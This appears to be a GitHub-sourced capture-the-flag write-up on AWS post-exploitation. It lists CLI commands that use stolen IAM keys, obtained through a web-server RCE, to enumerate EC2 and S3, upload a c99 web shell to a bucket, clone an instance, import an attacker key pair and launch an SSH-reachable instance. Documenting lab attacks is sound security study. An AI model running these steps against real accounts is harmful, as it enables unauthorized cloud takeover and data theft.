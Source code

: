 **Obtaining IAM Key allow you to create any instance, create Security group anything you could do whatever you want.there are several vector to obtain a valid IAM Key to laverage to compromise the entire dedicated network.** the dedicated web server was being running with known RCE which allow an attacker to execute os command in the context of application upon attacking against targeted system.nonetheless the system strictly forbid to have a reverse shell.

```
export AWS_DEFAULT_REGION=us-east-1
export AWS_ACCESS_KEY_ID=XXX
export AWS_SECRET_ACCESS_KEY=XXX
export AWS_SESSION_TOKEN=XXXX
```
# Basic Enumeration
```
aws ec2 describe-regions --output table
aws ec2 describe-addresses
aws ec2 describe-instance-status
aws ec2 describe-key-pairs
aws ec2 describe-instance-types
aws ec2 describe-network-acls
aws ec2 describe-security-groups
aws ec2 describe-snapshots

```



```
aws s3 ls  s3://ctfbucket-374385855887
aws s3 cp file.txt s3://ctfbucket-374385855887/test.txt
aws s3 cp c99.txt s3://ctfbucket-374385855887/c99.txt
http://s3.amazonaws.com/ctfbucket-374385855887
```


```
aws ec2 describe-instances
aws ec2 describe-instances --instance-ids i-01dae4002316c79e6
aws ec2 create-image --instance-id i-01dae4002316c79e6 --name "XXXX" --description "XXXX"
aws ec2 import-key-pair --key-name "XXXX" --public-key-material file://aws.pub
aws ec2 run-instances --image-id ami-069f61c4801753ffc --security-group-ids "sg-a5b42392" "sg-0ed973a145df7fa29" "sg-07144a98dc383a311" --count 1 --instance-type t2.micro --key-name  --query "Instances[0].InstanceId"
aws ec2 run-instances --image-id ami-069f61c4801753ffc --security-group-ids "sg-a5b42392" "sg-0ed973a145df7fa29" "sg-07144a98dc383a311" --subnet-id subnet-7aefab74 --count 1 --instance-type t2.micro --key-name XXXX --query "Instances[0].InstanceId"
aws ec2 describe-instances --instance-ids i-01dae4002316c79e6 --query "Reservations[0].Instances[0].PublicIpAddress"
ssh -i aws_terraform ubuntu@x.x.x.x
```
